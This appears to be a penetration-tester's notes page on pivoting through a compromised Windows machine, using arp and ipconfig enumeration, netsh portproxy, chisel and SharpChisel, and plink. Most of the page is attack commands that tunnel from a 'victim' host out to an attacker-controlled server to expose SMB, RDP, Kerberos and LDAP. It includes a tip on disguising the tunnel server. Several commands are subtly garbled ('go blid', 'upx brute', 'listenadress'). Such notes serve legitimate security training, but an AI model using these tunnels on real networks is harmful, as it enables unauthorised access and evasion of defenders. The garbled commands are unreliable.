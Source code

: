 # Pivoting in Windows

## Pivoting in Windows

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

### Tunneling/Proxying

Create a proxy type connection through a compromised machine in order to route all traffic into the targeted network.

### Port Forwarding

Create a connection between a local port and a single port on a target.

## Pivoting Enumeration

### Enumerate the ARP Table

The ARP table contains IP addresses of hosts that the target has interacted with recently. We can enumerate it with:

```text
arp -a
```

### Enumerate Name Resolution

On Windows systems, we can find the name resolution mappings in:

```text
C:\Windows\System32\drivers\etc\hosts
```

### Enumerating Network Interface Cards \(NICs\)

First, we must determine which subnets are on the operating system to do that we can enumerate the system network interface cards with DOS/Batch or PowerShell:

```text
ipconfig /all
Get-NetIPConfiguration
```

## Pivoting with netsh

[Netsh ](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts#:~:text=Netsh%20is%20a%20command%2Dline,in%20batch%20files%20or%20scripts.)is a command-line scripting utility that allows you to display or modify the network configuration of a computer that is currently running. Netsh commands can be run by typing commands at the netsh prompt and they can be used in batch files or scripts. Remote computers and the local computer can be configured by using netsh commands.

 We can use netsh to forward ports:

1. listenaddress – is a local IP address waiting for a connection.
2. listenport – local listening TCP port \(the connection is waited on it\).
3. connectaddress – is a local or remote IP address \(or DNS name\) to which the incoming connection will be redirected.
4. connectport – is a TCP port to which the connection from listenport is forwarded to.

```text
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

_**Example below:**_

First, establish a connection:

```text
# Syntax Simplified
netsh interface portproxy add v4tov4 listenport=1234 listenadress=compromised_IP connectport=second_target_PORT connectaddress=second_target_IP
netsh interface portproxy add v4tov4 listenport=1234 listenaddress=target_ip connectport=445 connectaddress=other_machine_ip

# Example
netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.168.134.10 connectport=445 connectaddress=172.16.1.50
```

Then verify that the connection has been made with:

```text
C:\Users\first_victim> netstat -anp TCP | find "1234"
```

## Pivoting with chisel

[Chisel ](https://github.com/jpillora/chisel)is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go \(golang\). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

Compiling chisel locally in our host:

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Let's say that we want to forward the ports 389 and 88 through port 8008 in our host, we can do that with [chisel](https://github.com/jpillora/chisel) by doing this:

```text
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
```

### Pivoting with SharpChisel

[SharpChisel](https://github.com/shantanu561993/SharpChisel) is a C\# wrapper for chisel:

```text
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

## Pivoting with plink

plink is an old networking tool that we can also use for forwarding ports:

```text
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```

